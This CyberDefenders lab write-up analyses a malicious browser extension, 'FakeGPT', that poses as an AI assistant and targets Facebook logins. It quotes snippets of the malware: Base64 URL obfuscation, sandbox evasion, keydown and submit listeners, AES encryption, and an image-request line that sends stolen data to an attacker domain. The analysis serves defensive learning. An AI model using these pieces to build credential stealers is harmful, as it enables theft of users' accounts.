








# FakeGPT - Malicious Browser Extension Analysis

## Executive Summary

This investigation analyzes a malicious browser extension disguised as an AI-powered assistant named FakeGPT. Through static analysis of the extension's source code, multiple malicious capabilities were identified, including credential theft, keylogging, browser session access, encrypted data exfiltration, and anti-analysis techniques.

The extension specifically targets Facebook users by monitoring login forms, capturing usernames and passwords, recording keystrokes, encrypting collected information using AES encryption, and transmitting the data to an attacker-controlled server through image-based requests.

The investigation was performed using source code review, CyberChef, and manual JavaScript analysis.

---

## Lab Information

| Field         | Value            |
| ------------- | ---------------- |
| Platform      | CyberDefenders   |
| Lab           | FakeGPT          |
| Category      | Malware Analysis |
| Difficulty    | Easy             |
| Analysis Type | Static Analysis  |

---

# Investigation Process

## Question 1

### What encoding method does the browser extension use to obfuscate target URLs?

While reviewing `loader.js`, an encoded string was identified:

```javascript
d3d3LmZhY2Vib29rLmNvbQ==
```

The value appeared to be encoded rather than plaintext. To identify the encoding mechanism, the string was analyzed using CyberChef's **Magic** operation.

CyberChef detected the value as Base64 and decoded it into:

```text
www.facebook.com
```

Further review of the code confirmed usage of:

```javascript
return atob(_0x5fa1);
```

which performs Base64 decoding in JavaScript.

### Evidence



### Finding

The extension uses **Base64 encoding** to obfuscate targeted URLs.

---

## Question 2

### Which website does the extension monitor for credential theft?

After decoding the Base64 string discovered in `loader.js`, the resulting value was:

```text
www.facebook.com
```

The extension stores the decoded value inside the targets array:

```javascript
const targets = [_0xabc1("d3d3LmZhY2Vib29rLmNvbQ==")];
```

This indicates that malicious functionality activates when a user visits Facebook.

### Evidence



### Finding

The extension specifically targets:

```text
www.facebook.com
```

---

## Question 3

### What is the first condition that causes the extension to disable itself?

While analyzing `loader.js`, an anti-analysis mechanism was identified.

```javascript
if (navigator.plugins.length === 0 ||
    /HeadlessChrome/.test(navigator.userAgent))
```

If the condition evaluates to true, the extension disables itself.

The first evaluated condition is:

```javascript
navigator.plugins.length === 0;
```

which attempts to identify virtualized or automated analysis environments.

### Evidence



### Finding

The extension disables itself when:

```javascript
navigator.plugins.length === 0;
```

---

## Question 4

### Which event does the extension capture to track submitted credentials?

Inside `app.js`, the extension registers a form submission listener:

```javascript
document.addEventListener('submit', function(event)
```

When the event occurs, usernames, emails, and passwords are extracted from the submitted form.

### Evidence



### Finding

The extension monitors the:

```text
submit
```

event.

---

## Question 5

### Which API or method is used to monitor keystrokes?

During review of the same code block, a second listener was discovered:

```javascript
document.addEventListener('keydown', function(event)
```

Every pressed key is captured using:

```javascript
var key = event.key;
```

and forwarded to the exfiltration routine.

### Evidence


### Finding

The extension captures keystrokes using:

```text
keydown
```

---

## Question 6

### What type of HTML element is used to send stolen data?

The function responsible for data transmission creates an image object:

```javascript
var img = new Image();
```

The stolen information is appended to a URL and transmitted through the image request.

```javascript
img.src =
  "https://M0.Elshaheedy.com/collect?data=" + encodeURIComponent(encryptedData);
```

### Evidence



### Finding

The extension uses an HTML:

```html

```

element for data exfiltration.

---

## Question 7

### Which domain receives exfiltrated information?

The `sendToServer()` function revealed the destination URL:

```javascript
img.src =
  "https://M0.Elshaheedy.com/collect?data=" + encodeURIComponent(encryptedData);
```

### Evidence


### Finding

The attacker-controlled domain is:

```text
M0.Elshaheedy.com
```

---

## Question 8

### Which function exfiltrates captured credentials?

Credential harvesting occurs after form submission:

```javascript
if (username && password) {
  exfiltrateCredentials(username, password);
}
```

The function creates a payload containing:

- Username
- Password
- Website hostname

before forwarding it for encryption and transmission.

### Evidence



### Finding

The function responsible for credential theft is:

```javascript
exfiltrateCredentials();
```

---

## Question 9

### Which encryption algorithm secures the data before transmission?

The encryption routine was located inside:

```javascript
encryptPayload();
```

The following operation was identified:

```javascript
CryptoJS.AES.encrypt(data, key, { iv: iv });
```

indicating the use of AES encryption.

### Evidence



### Finding

The extension uses:

```text
AES
```

encryption.

---

## Question 10

### What permission allows access to session-related information?

The extension's permissions were reviewed inside `manifest.json`.

The following permission was identified:

```json
"cookies"
```

Browser cookies may contain:

- Session identifiers
- Authentication tokens
- User session information

### Evidence



### Finding

The extension requests access to:

```text
cookies
```

which may allow theft or manipulation of session-related data.

---

# Indicators of Compromise

## Domains

```text
M0.Elshaheedy.com
www.facebook.com
```

## Functions

```javascript
exfiltrateCredentials();
sendToServer();
encryptPayload();
exfiltrateData();
```

## Browser Events

```text
submit
keydown
```

## Permissions

```text
cookies
webRequest
webRequestBlocking
storage
tabs
```

---

# MITRE ATT&CK Mapping

| Technique                       | ID        |
| ------------------------------- | --------- |
| Input Capture: Keylogging       | T1056.001 |
| Input Capture                   | T1056     |
| Browser Session Cookie Access   | T1539     |
| Exfiltration Over Web Services  | T1567     |
| Virtualization/Sandbox Evasion  | T1497     |
| Obfuscated Files or Information | T1027     |

---

# Conclusion

FakeGPT is a malicious browser extension disguised as an AI assistant. Static analysis revealed credential theft functionality, keylogging capabilities, AES-encrypted data exfiltration, access to browser cookies, and anti-analysis mechanisms designed to evade virtualized environments.

The extension specifically targets Facebook users and transmits stolen information to an attacker-controlled domain using image-based HTTP requests. This investigation demonstrates how seemingly legitimate browser extensions can abuse browser permissions and client-side JavaScript to steal credentials and monitor user activity.
